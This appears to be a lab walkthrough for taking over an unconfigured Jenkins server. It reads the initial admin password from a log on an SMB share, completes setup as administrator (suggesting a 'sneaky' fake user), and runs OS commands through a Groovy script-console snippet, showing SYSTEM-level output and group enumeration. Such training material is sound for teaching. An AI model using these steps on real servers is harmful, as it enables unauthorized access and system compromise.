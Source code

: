 +++
title = "Insecure Jenkins"
weight = 3
+++

## 1. First impressions
This Jenkins server appears to have been installed but never fully configured.
This is acctually common with software that ships with other software.

![](./jenkins1.png)

The web console tells us that there is an admin password written somewhere in a directory we don't have access to. 
However, it also mentions the file is written to the Jenkins log.  

## 2. Accessing the Jenkins dir from the SMB share
Connect back to the SMB share we accessed previously.  Take a look inside the Jenkins directory.
![](./jenkins2.png)

There appear to be three files with the *.log* extention.  Download them both.  Looking inside the err log file we can see 
the one-time admin password.

##### jenkins.err.log
```
2023-03-30 15:27:34.096+0000 [id=1]     WARNING o.e.j.s.handler.ContextHandler#setContextPath: Empty contextPath
2023-03-30 15:27:34.437+0000 [id=1]     INFO    org.eclipse.jetty.server.Server#doStart: jetty-10.0.13; built: 2022-12-07T20:13:20.134Z; git: 1c2636ea05c0ca8de1ffd6ca7f3a98ac084c766d; jvm 17.0.6+9-LTS-190
2023-03-30 15:27:38.030+0000 [id=1]     INFO    o.e.j.w.StandardDescriptorProcessor#visitServlet: NO JSP Support for /, did not find org.eclipse.jetty.jsp.JettyJspServlet
2023-03-30 15:27:38.499+0000 [id=1]     INFO    o.e.j.s.s.DefaultSessionIdManager#doStart: Session workerName=node0
2023-03-30 15:27:41.307+0000 [id=1]     INFO    hudson.WebAppMain#contextInitialized: Jenkins home directory: C:\ProgramData\Jenkins\.jenkins found at: EnvVars.masterEnvVars.get("JENKINS_HOME")
2023-03-30 15:27:41.725+0000 [id=1]     INFO    o.e.j.s.handler.ContextHandler#doStart: Started w.@31c269fd{Jenkins v2.387.1,/,file:///C:/ProgramData/Jenkins/war/,AVAILABLE}{C:\ProgramData\Jenkins\war}
2023-03-30 15:27:41.803+0000 [id=1]     INFO    o.e.j.server.AbstractConnector#doStart: Started ServerConnector@6591f517{HTTP/1.1, (http/1.1)}{0.0.0.0:8080}
2023-03-30 15:27:41.865+0000 [id=1]     INFO    org.eclipse.jetty.server.Server#doStart: Started Server@55ca8de8{STARTING}[10.0.13,sto=0] @12336ms
2023-03-30 15:27:41.881+0000 [id=25]    INFO    winstone.Logger#logInternal: Winstone Servlet Engine running: controlPort=disabled
2023-03-30 15:27:42.801+0000 [id=32]    INFO    jenkins.InitReactorRunner$1#onAttained: Started initialization
2023-03-30 15:27:43.068+0000 [id=32]    INFO    jenkins.InitReactorRunner$1#onAttained: Listed all plugins
2023-03-30 15:27:46.271+0000 [id=30]    INFO    jenkins.InitReactorRunner$1#onAttained: Prepared all plugins
2023-03-30 15:27:46.286+0000 [id=30]    INFO    jenkins.InitReactorRunner$1#onAttained: Started all plugins
2023-03-30 15:27:46.328+0000 [id=32]    INFO    jenkins.InitReactorRunner$1#onAttained: Augmented all extensions2023-03-30 15:27:47.506+0000 [id=31]    INFO    jenkins.InitReactorRunner$1#onAttained: System config loaded
2023-03-30 15:27:47.506+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: System config adapted
2023-03-30 15:27:47.506+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: Loaded all jobs
2023-03-30 15:27:47.506+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: Configuration for all jobs updated
2023-03-30 15:27:47.584+0000 [id=31]    INFO    jenkins.install.SetupWizard#init: 

*************************************************************
*************************************************************
*************************************************************

Jenkins initial setup is required. An admin user has been created and a password generated.
Please use the following password to proceed to installation:

f9d8aa****************321f63c6fa

This may also be found at: C:\ProgramData\Jenkins\.jenkins\secrets\initialAdminPassword

*************************************************************
*************************************************************
*************************************************************

2023-03-30 15:28:08.935+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: Completed initialization
2023-03-30 15:28:08.983+0000 [id=24]    INFO    hudson.lifecycle.Lifecycle#onReady: Jenkins is fully up and running
```

Here we can see the temporary admin password just as expected *f9d8aa\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*321f63c6fa*.

## 3. Finish setting up with the admin password
> :WARNING: *You should have full resolution screenshots with timestamps of every action you take to setup this Jenkins server*
>

* Enter the temporary admin password and click on the "**Continue**" button

![](./jenkins3.png)

* Click on the big "**Install suggested plugins**" button
![](./jenkins4.png)

* Once the installation wizard finishes select "**Skip and continue as admin**".  Alternitively you could create an admin user, maybe name it richard.f if you're trying to be sneaky.
![](./jenkins5.png)

* Nothing to do here just click on the "**Save and Finish**" button.
![](./jenkins6.png)

* Contratulations you are now the Jenkins administrator and this server is ready for use.  Click on "**Start using Jenkins**".
![](./jenkins7.png)

> :WARNING: *You should have full resolution screenshots with timestamps of every action you took to setup this Jenkins server*

Now that we have admin access to the Jenkins web console we can ensure that the script console is turned on. 
This will allow us to command the underlying operating system using whatever permissions this Jenkins server is currently 
running with.


## 4. Groovyscript OS command execution
With the script console enabled (it's enabled by default), executing OS commands is trivial using Groovyscript

* Navigate to **/script** and run the following Groovyscript snippet.

```Java
def sout = new StringBuffer(), serr = new StringBuffer();
def proc = 'cmd.exe /c dir'.execute();
proc.consumeProcessOutput(sout, serr);
proc.waitForOrKill(1000);
println "out> $sout err> $serr"
```
![](./jenkins8.png)

### 4.1. Additional target enumeration
Now you can just update *cmd.exe /c dir* to whatever Windows command you want to run.

* Use **whoami** to figure out what level of permissions the Jenkins server is running with
```
out> nt authority\system
 err>
```

* Use **net localgroup** to see a list of local groups for this machine
```
out> 
Aliases for \\FEYNMAN-WINSRV1

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Certificate Service DCOM Access
*Cryptographic Operators
*Device Owners
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Print Operators
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Storage Replica Administrators
*System Managed Accounts Group
*Users
The command completed successfully.

 err>
```
* Go through each group with **net localgroup [GROUPNAME]** and see if there is anything interesting

